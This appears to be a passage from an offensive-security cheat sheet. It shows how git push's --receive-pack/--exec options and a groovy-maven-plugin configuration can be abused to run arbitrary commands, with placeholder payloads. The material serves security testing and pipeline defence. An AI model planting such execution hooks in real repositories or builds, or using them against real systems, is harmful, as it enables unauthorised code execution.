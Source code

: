 References:
- [GTFOArgs: git](https://gtfoargs.github.io/gtfoargs/git/)

## git-push

{% embed url="https://git-scm.com/docs/git-push" %}

### --receive-pack/--exec

[receive-pack or exec](https://git-scm.com/docs/git-push#Documentation/git-push.txt---receive-packltgit-receive-packgt) specifies a path to the [git-receive-pack](https://git-scm.com/docs/git-receive-pack) program on the remote end. You can execute arbitrary code like this:

```bash
$ echo "#!/bin/bash" > payload.sh
$ echo "echo 'arbitrary payload here'" >> payload.sh
$ chmod +x payload.sh
$ git push --receive-pack=payload.sh username/repo main
# or
$ git push --exec=payload.sh username/repo main
# or
$ git push --receive-pack=payload.sh main
```

# maven

Execution of arbitrary commands or code during `mvn <PHASE>` execution is possible through the use of various plugins such as [exec-maven-plugin](https://www.mojohaus.org/exec-maven-plugin/) or [groovy-maven-plugin](https://groovy.github.io/gmaven/groovy-maven-plugin/index.html). In order to execute a malicious payload using the `groovy-maven-plugin` plugin during the phase `<PHASE>` you can use the following configuration:

```xml
<plugin>
  <groupId>org.codehaus.gmaven</groupId>
  <artifactId>groovy-maven-plugin</artifactId>
  <executions>
    <execution>
      <phase><!-- PHASE_HERE --></phase>
      <goals>
        <goal>execute</goal>
      </goals>
      <configuration>
        <source>
          print "cmdname arg1 arg2".execute().text
        </source>
      </configuration>
    </execution>
  </executions>
</plugin>
```

